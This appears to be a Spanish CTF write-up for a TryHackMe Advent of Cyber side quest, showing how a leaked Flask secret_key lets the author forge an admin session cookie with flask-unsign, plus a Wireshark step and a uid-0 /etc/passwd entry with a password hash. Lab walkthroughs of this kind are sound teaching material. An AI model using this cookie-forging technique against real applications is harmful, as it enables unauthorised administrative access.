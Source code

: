 En el Github del usuario que responde al Alcalde Malware, encontramos un código de una aplicación de C2 en flask:

https://github.com/Bloatware-WarevilleTHM/C2-Server/blame/main/app.py

Además lanzando nmap sobre la máquina del primer challenge, encontramos esa misma aplicación:

![[Pasted image 20241203002627.png]]

Como en github tenemos la secret_key, podemos [generar nuestra propia cookie de admin](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce):

```bash
flask-unsign --sign --cookie "{'logged_in':True,'username':'admin'}" --secret "@09JKD0934jd712?djD"

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Z05A8g.QqBS6TL_dsSEr-iFtZzBIF_c384
```

En mi caso he utilizado la extensión cookie-editor, aunque lo puedes guardar directamente con las herramientas de desarrollador, con eso podremos acceder al dashboard:

![[Writeups/THM/AdventOfCyber/SQ1/dashboard.png]]

y en data tenemos la card:

![[aoc-sidequest-keycard2.png]]

El reto de wireshark en si es muy facil, con poner http y que sea por post se sacn los dos primeros. Luego hay un archivo que contiene una entrada del /etc/passwd:

![[Pasted image 20241203010108.png]]

`user:$1$user$k8sntSoh7jhsc6lwspjsU.:0:0:/root/root:/bin/bash`